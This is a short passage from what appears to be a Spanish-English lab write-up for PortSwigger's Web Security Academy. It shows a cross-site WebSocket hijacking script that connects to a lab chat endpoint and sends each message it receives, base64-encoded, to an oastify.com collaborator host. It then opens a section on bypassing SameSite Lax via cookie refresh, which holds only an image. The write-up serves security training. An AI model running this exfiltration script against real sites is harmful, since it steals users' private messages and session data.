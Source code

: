 - WebSocket Script

```html
<script>
    var webSocket = new WebSocket("wss://0a7a005d0342e00880800329002c0087.web-security-academy.net/chat");

    webSocket.onopen = function() {
        webSocket.send("READY");
    };

    webSocket.onmessage = function(message) {
        fetch("https://7aib4qn9mkaks7unl1rwx2iuklqce22r.oastify.com/?data=" + btoa(message.data));
    };
</script>
```

## Bypass de SameSite Lax con refresco de cookie || SameSite Lax bypass via cookie refresh

![](/img2/Pasted%20image%2020250802201322.png)
